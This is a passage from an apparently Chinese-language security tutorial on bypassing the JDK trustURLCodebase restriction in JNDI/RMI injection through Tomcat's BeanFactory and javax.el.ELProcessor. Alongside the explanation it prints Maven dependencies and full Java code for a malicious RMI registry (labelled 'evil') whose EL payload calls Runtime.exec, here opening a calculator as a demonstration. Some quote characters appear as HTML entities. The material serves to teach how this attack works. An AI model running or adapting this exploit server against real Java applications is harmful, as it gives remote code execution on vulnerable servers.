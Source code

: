   
  
  
3.1  
  
   
RMI高版本绕过  
  
在JDK 6u132, JDK 7u122, JDK 8u121版本开始com.sun.jndi.rmi.object.trustURLCodebase、  
  
com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。所以原本的远程加载恶意类的方式已经失效，不过并没有限制从本地进行加载类文件，比如org.apache.naming.factory.BeanFactory。  
  
3.1.1 利用tomcat8的类  
  
利用类为org.apache.naming.factory. BeanFactory，针对 RMI 利用的检查方式中最关键的就是 if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase)。  
  
如果 FactoryClassLocation 为空，那么就会进入 NamingManager.getObjectInstance，在此方法会调用 Reference 中的ObjectFactory。  
  
因此绕过思路为在目标 classpath 中寻找实现 ObjectFactory 接口的类。在 Tomcat 中有一处可以利用的符合条件的类org.apache.naming.factory. BeanFactory，在此类中会获取 Reference 中的forceString 得到其中的值之后会判断是否包含等号，如果包含则用等号分割，将前一半当做方法名，后一半当做 Hashmap 中的 key。如果不包含等号则方法名变成 set开头。值得注意的是此方法中已经指定了参数类型为 String。后面将会利用反射执行前面所提到的方法。因此需要找到使用了 String 作为参数，并且能 RCE的方法。在javax.el.ELProcessor 中的 eval 方法就很合适。  
  
pom.xml添加相关依赖  

```
<dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>tomcat-catalina</artifactId>
        <version>8.5.0</version>
    </dependency>
    <dependency>
        <groupId>org.apache.tomcat.embed</groupId>
        <artifactId>tomcat-embed-el</artifactId>
        <version>8.5.15</version>
    </dependency>
```

  
启动服务端代码：  

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import org.apache.naming.ResourceRef;


publicclassHdjkserver{
    publicstaticvoidmain(String[] args)throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef resourceRef = new ResourceRef(&#34;javax.el.ELProcessor&#34;, (String)null, &#34;&#34;, &#34;&#34;, true, &#34;org.apache.naming.factory.BeanFactory&#34;, (String)null);
        resourceRef.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=eval&#34;));
        resourceRef.add(new StringRefAddr(&#34;a&#34;, &#34;Runtime.getRuntime().exec(\&#34;open -a calculator\&#34;)&#34;));
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(resourceRef);
        registry.bind(&#34;exp&#34;, refObjWrapper);
        System.out.println(&#34;Creating evil RMI registry on port 1099&#34;);
    }
}
```
